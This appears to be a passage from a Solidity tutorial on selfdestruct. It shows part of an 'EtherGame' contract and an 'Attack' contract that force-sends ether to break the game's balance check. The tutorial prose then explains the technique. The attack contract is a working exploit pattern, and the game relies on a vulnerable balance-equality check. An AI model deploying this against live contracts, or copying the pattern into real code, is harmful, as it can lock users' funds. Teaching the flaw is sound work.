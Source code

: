 ```js

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```

When we deploy these contracts and interact with the functions, we realize that we are able to `deposit` Ethereum to the `EtherGame` contract but there is a limit set to prevent the game from going over a set target. Without a fallback or receive function, we can't send ETH directly into the contract.

> A wise choice would be to force ETH into a contract via `selfdestruct` and hence blocking the game mechanics, making the game unplayable forever.

The `Selfdestruct` keyword will forcefully push value into another smart contract, whether the receiving contract is prepared to receive funds or not.

## Conclusion

The `selfdestruct` function is a powerful tool in Ethereum's Solidity language. Use it wisely and with caution. It provides not only a means to delete a contract but also the ability to forcefully push any amount of Ethereum into any other contract address. It also serves as a useful instrument for exploiting smart contracts by forcing Ethereum into places where they don't typically go.
